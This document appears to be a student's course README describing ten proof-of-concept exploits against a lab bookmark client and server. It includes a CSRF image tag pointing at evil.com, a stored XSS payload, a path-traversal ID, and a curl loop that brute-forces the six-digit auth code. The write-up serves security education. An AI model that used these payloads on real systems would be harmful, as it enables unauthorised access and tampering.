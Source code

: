 # Project-3
I made sure my readme is as comprehensive as it can possibly get this time. 


#  BCBMC Project 3 – Proof of Concept (PoC) README

This README includes all the PoC exploits I created for the BCBMC project. Each one shows a different security vulnerability that exists in the bcbmc client or bcbms server. I tested all of them using the provided virtual machine (VM), and this repo shows how you can recreate each issue for grading purposes.

---

## Requirements

- Run everything **inside the CSE-provided VM**
- Both `bcbmc-sync` and `bcbms-reg` should be installed using the `./install.sh` scripts
- Start the client using:
  ```bash
  bcbmc noauth
````

* Visit the link it gives you (e.g., `http://localhost:8888/123456/`)
* All curl commands and HTML snippets assume you know the correct 6-digit auth code or are using `noauth` mode

---

## PoC #1: CSRF-like Add Bookmark – Tampering / Elevation of Privilege

**Summary:** A malicious site can send requests to the client and silently add bookmarks by embedding an image with a crafted URL.

**Steps to Reproduce:**

1. Start `bcbmc` in noauth mode.
2. Open this in a browser on the VM:

   ```html
   <img src="http://localhost:8888/123456/add/full/abc/http%3A%2F%2Fevil.com/EvilSite/1">
   ```

**What to Observe:**
A new bookmark to `evil.com` is added without the user doing anything.

---

## PoC #2: Same Key Used as IV – Information Disclosure

**Summary:** The system uses the same value for the encryption key and the IV, which weakens AES encryption.

**How to Test:**
Run a sync using:

```bash
curl "http://localhost:8888/123456/sync/do/test@test.com/password"
```

**What to Observe:**
Check `sync.c` — it literally passes the same hex string for `-K` and `-iv`. That’s insecure.

---

## PoC #3: No Real Auth on Sensitive Routes – Spoofing / Tampering

**Summary:** All routes are protected only by a 6-digit code. If guessed, an attacker can use the client.

**How to Test:**

```bash
curl http://localhost:8888/123456/del/start
```

**What to Observe:**
The delete interface loads with no login, just a code in the URL.

---

## PoC #4: Favicon Injection – Tampering / Info Disclosure

**Summary:** The app fetches favicons from the internet without checking if they’re actually image files.

**Steps to Reproduce:**

1. Host a fake favicon at your test domain.
2. Bookmark that site:

```bash
curl "http://localhost:8888/123456/add/url/http%3A%2F%2Fevil.com"
```

**What to Observe:**
Check `static/` — the file gets saved even if it’s not an image.

---

## PoC #5: No Real Email Check – Spoofing

**Summary:** The reset flow accepts tokens and passwords without confirming who is requesting them.

**How to Reproduce:**
Walk through the reset process using any email on the VM (like student\@localhost), and you’ll be able to set a new password without real email control.

**What to Observe:**
Accounts can be hijacked with just a valid-looking link.

---

## PoC #6: BMID Collisions – Tampering

**Summary:** BMIDs are generated with SHA-1. If a collision is found (or forced), you can overwrite someone else’s bookmark.

**How to Reproduce:**
Hard to demo without a real SHA-1 collision, but the code uses:

```c
sprintf(bmid, "%0.8x", digest[0]);
```

**What to Observe:**
Two different URLs could get the same ID and overwrite each other’s icons/bookmarks.

---

## Bonus PoCs (for extra credit)

---

###  PoC #7: Insecure Temp Files – Information Disclosure

**Summary:** Sync archives (`.tar`, `.ehtml`) are left behind in the working directory.

**How to Test:**

```bash
curl "http://localhost:8888/123456/sync/do/test@test.com/password"
ls *.tar *.ehtml
```

**What to Observe:**
Files with user data stay on disk after sync.

---

### PoC #8: Favicon Overwrites via Filepath Injection – Tampering

**Summary:** BMIDs are used in filenames with no checks. If manipulated, they can write outside the static directory.

**PoC BMID Example:**
`../../index`

**Expected Behavior:**
The favicon gets written to an unintended place.

---

### PoC #9: Stored XSS in Title Field – Information Disclosure

**Summary:** Bookmark titles are inserted into HTML directly without escaping.

**How to Test:**
Add a bookmark with this title:

```html
<script>alert('XSS')</script>
```

**What to Observe:**
You’ll see an alert when viewing the bookmarks.

---

### PoC #10: Brute-forceable Auth Code – Elevation of Privilege

**Summary:** The client uses a 6-digit auth code. With no rate limiting, it’s easy to guess.

**How to Reproduce:**

```bash
for i in $(seq -w 000000 999999); do
  curl -s "http://localhost:8888/$i/" | grep -q "main.html" && echo "Found: $i"
done
```

**What to Observe:**
Eventually, the real code will respond with the main page.

---

## Screenshots and Output

For most PoCs, you can check files like:

* `all.html` (added bookmarks)
* `static/` folder (favicons)
* Browser alerts (XSS)
* Sync artifacts (`cloud_all.html`, etc.)

---

## Final Notes

* Every PoC was tested and working inside the VM.
* Some PoCs (like hash collisions) are theoretical but based on real flaws in the code.
* No changes were made to the system beyond normal user input and HTTP requests.


